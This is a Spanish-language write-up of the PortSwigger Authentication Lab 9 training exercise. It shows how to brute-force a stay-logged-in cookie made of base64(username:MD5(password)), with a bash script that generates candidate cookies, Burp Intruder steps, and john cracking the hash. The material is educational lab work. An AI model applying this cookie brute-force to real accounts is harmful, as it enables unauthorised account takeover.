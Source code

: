 ```yaml
---
title: Authentication Lab 9
date: 2025-01-29 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Brute-forcing a stay-logged-in cookie
image:
  path: /assets/img/Authentication-Lab-9/Portswigger.png
---
```


## Skills

- Brute-forcing a stay-logged-in cookie

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Para `resolver` el `laboratorio`, debemos `realizar` un `ataque` de `fuerza bruta` sobre la `cookie` de Carlos para `acceder` a `Mi account`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `bruteforcear` la `contraseña`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-9/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-9/image_2.png)

En el caso de que introdujésemos `dos veces` la `contraseña incorrecta` nos `bloquearía` y deberíamos `esperar 1 minuto` para volver a intentar `introducir` las `credenciales`

![](/assets/img/Authentication-Lab-9/image_3.png)

`Rellenamos` el campo `Email`, `pulsamos` en `Update email` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_4.png)

Si nos fijamos bien el campo `stay-logged-in` de la `cookie` está `compuesto` por el `nombre` de `usuario` y la `contraseña`

![](/assets/img/Authentication-Lab-9/image_5.png)

`Identificamos` el `tipo` de `hash` con el que se `cifra` la `contraseña`, para ello podemos usar `webs` como [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

![](/assets/img/Authentication-Lab-9/image_6.png)

Otra opción sería usar `herramientas` como `hash-identifier`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 51dc30ddc473d43a6011e9ebba6ca770

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
```

Para `confirmar` que es `MD5` usamos este comando y vemos que `ambos hashes coinciden`

```
# echo -n 'peter' | md5sum | awk '{print $1}'
51dc30ddc473d43a6011e9ebba6ca770
```

Vemos que podemos `eliminar` el `parámetro session` y el servidor nos `asigna` una `cookie` de acuerdo al parámetro `stay-logged-in`

![](/assets/img/Authentication-Lab-9/image_7.png)

Si intentamos acceder a `/my-account?id=carlos` con el y el `stay-logged-in` tiene las `credenciales incorrectas` nos hará un `redirect` a `/login`. Sin embargo, si lo hacemos con las `credenciales correctas` nos `devolverá` un `200 OK` y no habrá ningún redirect, podemos usar esto para `bruteforcear` la `contraseña` del usuario `carlos` y `acceder` a su `cuenta`

![](/assets/img/Authentication-Lab-9/image_8.png)

Para `crear` este `valor` de la `cookie` vamos a usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y este `script` en `bash`

```
#!/bin/bash

while IFS= read -r line
do
  username="carlos"
  md5_hashed_password=$(echo -n "$line" | md5sum | awk '{print $1}')
  base64_hashed_password="$username:$md5_hashed_password"
  echo -n "$base64_hashed_password" | base64 >> hashed_passwords.txt
done < "passwords.txt"
```

`Mandamos` la `petición` al `Intruder` y ahí `marcamos` el `campo` de la `cookie` a `bruteforcear`

![](/assets/img/Authentication-Lab-9/image_9.png)

`Cargamos` el `diccionario` creado

![](/assets/img/Authentication-Lab-9/image_10.png)

Otra forma de `bruteforcear` sería usando las `contraseñas` de `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y luego `procesar` el `payload` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_11.png)

Si la `contraseña` es la `correcta` nos `devuelve` el `código de estado 200`, así que `filtramos` por `código` de `estado` y `obtenemos` el `hash`

![](/assets/img/Authentication-Lab-9/image_12.png)

`Obtenemos` la `contraseña` del usuario `carlos`

```
# echo 'Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl' | base64 -d
carlos:91cb315a6405bfcc30e2c4571ccfb8ce 
```

El `payload` usado para la `petición` es el `número 83`, por lo tanto podemos usar awk` `para `obtener` esa `línea` del `diccionario` de contraseñas

```
# awk 'NR==83' passwords.txt 
chelsea
```

Otra forma sería `creando` un `archivo` con el hash `91cb315a6405bfcc30e2c4571ccfb8ce` en su interior y `bruteforcearlo` con `john`

```
# john --format=raw-MD5 -w passwords.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
chelsea          (?)     
1g 0:00:00:00 DONE (2025-01-29 11:40) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..larry
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`Iniciamos sesión` en la `cuenta` de `carlos`

![](/assets/img/Authentication-Lab-9/image_13.png)

![](/assets/img/Authentication-Lab-9/image_14.png)

